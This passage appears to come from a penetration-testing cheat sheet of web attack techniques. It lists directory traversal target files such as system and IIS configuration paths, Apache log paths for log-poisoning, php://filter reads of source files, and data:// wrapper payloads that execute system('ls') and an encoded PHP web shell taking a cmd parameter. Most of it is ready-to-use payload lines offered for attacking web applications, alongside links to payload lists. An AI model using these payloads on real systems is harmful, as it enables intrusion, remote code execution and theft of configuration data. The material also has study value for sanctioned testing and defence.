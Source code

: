 ```html
		</script>
	</body>
</html>
```
### Directory Traversal 
```
LINUX
/etc/psswd

WINDOWS
C:\Windows\System32\drivers\etc\hosts
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

### Local File Inclusion
- [LFI Linux List](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt)
- [Windows List](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt)
#### RCE using LFI through Log poisoning
Check the log files and then check which entry can be poisoned through which language(depends on the webserver)
```
/var/log/apache2/access.log

C:\xampp\apache\logs\access.log
```
#### PHP Wrappers
Using **php://filter**, we can also display the contents of executable files such as **.php**, rather than executing them
```
php://filter/resource=admin.php
php://filter/convert.base64-encode/resource=admin.php
```
we can use the **data://** wrapper to achieve code execution. This wrapper is used to embed data elements as plaintext or base64-encoded data in the running web application's code. This offers an alternative method when we cannot poison a local file with PHP code.
```
data://text/plain,<?php%20echo%20system('ls');?>
data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```
This is a handy technique that may help us bypass basic filters. However, we need to be aware that the **data://** wrapper will not work in a default PHP installation. To exploit it, the [_allow_url_include_](https://www.php.net/manual/en/filesystem.configuration.php) setting needs to be enabled.
### File Upload
https://www.onsecurity.io/blog/file-upload-checklist/#uploading-a-htaccess-file
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

![[Insecure File Upload Methdology.png]]
